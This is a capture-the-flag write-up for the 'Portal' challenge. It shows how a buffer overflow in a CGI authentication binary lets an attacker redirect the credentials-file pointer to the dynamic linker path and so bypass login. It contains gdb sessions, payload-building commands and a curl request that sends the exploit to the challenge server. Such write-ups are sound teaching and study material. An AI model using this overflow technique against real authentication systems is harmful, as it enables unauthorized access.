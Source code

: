 ```yaml
---
title: "Portal"
date: 2021-01-30T19:50:00-06:00
tags: ["AdversaryQuest", "CTFs"]
draft: false
hidden: true
---
```


#### Challenge Description:

> PROTECTIVE PENGUIN gained access to one of their victims through the victim's extranet authentication portals and we were asked to investigate.

> Please download the Portal Code and see whether you can reproduce their means of initial access vector. We stood up a test instance of the authentication portal for you to validate against.

#### Write-Up:

This challenge had an interesting authentication bypass via a buffer overflow. Let's take a look.

We're given the code to the victim's authentication portal. By running it, logging in, and inspecting the request we can see that it sends a POST request to `portal.cgi`. The payload of the request is our username and password base64ed and in JSON format.   

![an example request to the penguin auth portal](images/penguin-auth-portal.png)

`portal.cgi` is a [CGI binary](https://en.wikipedia.org/wiki/Common_Gateway_Interface) that can be run directly via the command line. All we have to do is send the POST datat to standard input and pass the correct environment variables.

```
$ echo '{"user":"dXNlcm5hbWU=","pass":"cGFzc3dvcmQ="}' | \
       REQUEST_METHOD=POST CONTENT_LENGTH=45 ./cgi-bin/portal.cgi
Content-Type: application/json

{"status": "err"}                                   
```

If we pass it a correct username and password stored in the creds.txt file, we can log in: 

```
$ echo '{"user":"YWRtaW4=","pass":"YWRtaW4="}' | \
       REQUEST_METHOD=POST CONTENT_LENGTH=38 ./cgi-bin/portal.cgi
Content-Type: application/json

{"status": "success", "flag": "(null)"}
```

Opening `portal.cgi` in a reverse engineering program (I'm using Cutter here), we can decompile it and see how it actually authenticates. In `main` it checks environment variables for `REQUEST_METHOD` and `CONTENT_LENGTH` then it reads in the correct amount of bytes from standard input:

![first part of the portal's main function](images/penguin-portal-main-start.png)

Next it parses the json, looking for `"user"` and `"pass"`. Then it passes the base64 encoded username and password to `fcn.00401226`, the main authenticator function. If it returns `0`, then the authentication is successful and it returns the flag.

![second part of the portal's main function](images/penguin-portal-main-parse.png)

Let's take a look at this authenticator function. First it zeros out a buffer, then it [uses `__b64_pton` to decode the base64](https://www.lemoda.net/unix/base64/index.html) and copy it into the buffer. It does this twice, adding the character `:` (`0x3a`) in between the username and password.

![first part of the auth function](images/penguin-portal-auth-b64.png)

Then it opens up the file name specified, `creds.txt`, runs through each line looking for a `:` character using `strchr`, and finally uses `strcmp` to compare the buffer created above with the line in `creds.txt`. If `strcmp` returns 0 and the line in `creds.txt` is the same as the username/password combo passed to the authenticator function, then it returns 0 and authentication succeeds.  

![second part of the auth function](images/penguin-portal-auth-strcmp.png)

You can see the decompiler is getting confused at many points but it also points us in the direction of an exploit. The base64 decoder makes no checks to see if it overruns the buffer it is copying into - it gives a whopping `0x100` bytes to work with, much larger than the buffer size. We can send a very large payload and overrun the buffer.

```
$ cat bigbuff.json 
{"user":"QUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBCg==","pass":"QUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBCg=="}
$ wc bigbuff.json 
  1   1 526 bigbuff.json
$ cat bigbuff.json | REQUEST_METHOD=POST CONTENT_LENGTH=525 ./cgi-bin/portal.cgi
Content-Type: application/json

*** stack smashing detected ***: terminated
```

Ah but there is stack smashing detection enabled, so we cannot change the return address of the authenticator function, we can only change the contents *within* the stack. Luckily the filename that normally points to `"creds.txt"` is directly after this buffer. So if we overflow the buffer to point to a filename we already know, we can pass a correct username and password pair. Let's take a look in gdb, set the correct environment variables, and set a breakpoint right before the second call to `__b64_pton`. 


```
$ gdb -q ./cgi-bin/portal.cgi 
Reading symbols from ./cgi-bin/portal.cgi...
(No debugging symbols found in ./cgi-bin/portal.cgi)
(gdb) set environment REQUEST_METHOD=POST
(gdb) set environment CONTENT_LENGTH=525
(gdb) break *0x401307
Breakpoint 1 at 0x401307
(gdb) r < bigbuff.json 
```

The call to `fopen` takes the filename pointer from `-0x18(%rbp)`, which is initally points to `creds.txt`. After overwriting the buffer, the pointer is `0x414141...` or `AAA...` our long username and password in `bigbuff.json`.


![gdb stepping over the buffer overflow](images/penguin-portal-gdb-overflow.png)


At the top, the first call to `__b64_pton` copies the output to `%rbp - 0x220 + 0x104` or `%rbp - 0x11c`. The filename pointer is at `%rbp - 0x18` so our buffer is `0x11c - 0x18`, or 260 bytes long. So including the `:` added in between the username and password, we can construct a payload that overwrites the filename pointer but doesn't smash the stack:

```
$ python -c 'print("A"*130, end="")' > user
$ python -c 'print("B"*129+"CDEF", end="")' > pass
$ echo -n '{"user":"'$(base64 -w 0 user)'","pass":"'$(base64 -w 0 pass)'"}' \
       > test.json
$ wc -c test.json
377 test.json
$ gdb -q ./cgi-bin/portal.cgi 
Reading symbols from ./cgi-bin/portal.cgi...
(No debugging symbols found in ./cgi-bin/portal.cgi)
(gdb) set environment REQUEST_METHOD=POST
(gdb) set environment CONTENT_LENGTH=377
(gdb) break *0x401307
Breakpoint 1 at 0x401307
(gdb) r < test.json 
```

![testing to see if we can overwrite the buffer](images/penguin-portal-find-buffer-length.png)

But now that we can change this finename pointer,  we have the problem of what exactly we should change it *to*. At first I thought we can change it to `index.html`, a file we know exists on the machine and has semicolons in it, and thus, according to the authentication program, `username:password` pairs.

But we are changing a filename *pointer* so we need to have the text `index.html` loaded in memory, accessable, *and* know/control the address to it. We can add `index.html` to our payload or pass it as an environment variable (it's a cgi-bin so we have some control over the environment). But there would be no way to point to it - ASLR is enabled and a 64 bit binary so the exact location of our input is unknownable.

With ASLR enabled, the only place with fixed memory addresses is in the binary itself. Looking through the binary for strings that are pathnames, we only have only one other, aside from `creds.txt`:

![looking for strings](images/penguin-portal-path-to-file.png)

Aha! `/lib64/ld-linux-x86-64.so.2`, the path to the program's dynamic linker. If we change the filename point to look for credentials to that file instead, we can send it a `username:password` combination that is already in `/lib64/ld-linux-x86-64.so.2`. It is a binary file and we don't have the exact copy to inspect, but it probably isn't too different from one on another modern linux machine.

I looked in my own linker and tried a few different lines that had a `:` in it and the line `runtime linker statistics:` finally worked. Thankfullly we send our payload in base64 so we can null terminate our string while still overflowing the buffer. Finishing up:

```
$ echo -n "runtime linker statistics" > user
$ python -c 'payload = b"\x00" + b"A"*(260-27) + b"\xa8\x02\x40\x00";\
  	 open("pass", "wb").write(payload)'
$ echo -n '{"user":"'$(base64 -w 0 user)'","pass":"'$(base64 -w 0 pass)'"}' > payload.json
$ curl -d @payload.json https://authportal.challenges.adversary.zone:8880/cgi-bin/portal.cgi
{"status": "success", "flag": "CS{w3b_vPn_h4xx}"}
```
